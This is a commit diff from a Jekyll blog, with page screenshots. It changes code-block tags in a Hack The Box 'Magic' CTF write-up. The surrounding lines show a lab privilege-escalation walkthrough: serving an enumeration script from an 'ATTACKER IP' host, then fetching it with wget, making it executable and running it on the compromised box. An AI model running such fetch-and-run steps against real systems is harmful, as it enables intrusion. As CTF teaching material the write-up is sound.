

Before and after one commit to abdullahalshubaili/abdullahalshubaili.github.io, a Jekyll site: the page built from Hack The Box/_posts/2020-09-05-HTB-Magic.md, in a window 1280 px wide and 900 px high, scrolled down 9410 px. Shown: the part 149-765 px from the top of the window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
magic finished

````diff
--- a/Hack The Box/_posts/2020-09-05-HTB-Magic.md
+++ b/Hack The Box/_posts/2020-09-05-HTB-Magic.md
@@ -227,7 +227,7 @@ solid, now we have compromised theseus account.
 
 user.txt
 
-```sh
+```python
 theseus@ubuntu:~$ cat user.txt
 cat user.txt
 *******************3c1e26c2b91776
@@ -244,7 +244,7 @@ python3 -m http.server 80 --bind ATTACKER IP
 in same dir that the script is located.
 
 from theseuse box run the following:
-```sh
+```python
 theseus@ubuntu:~$ wget http://ATTACKER IP/linpeas.sh
 theseus@ubuntu:~$ chmod 777 linpeas.sh
 theseus@ubuntu:~$ ./LinEnum.sh
@@ -332,7 +332,7 @@ so the output is devided into 4 sections.
 
 running strings against '/bin/sysinfo' and grep for above words with `-A1` option to get 1 line after each word.
 
-```sh
+```python
 theseus@ubuntu:~$ strings /bin/sysinfo | grep 'Hardware\|Disk\|CPU\|MEM' -A1
 
 ====================Hardware Info====================
````
Also changed, not shown: 2 other files.
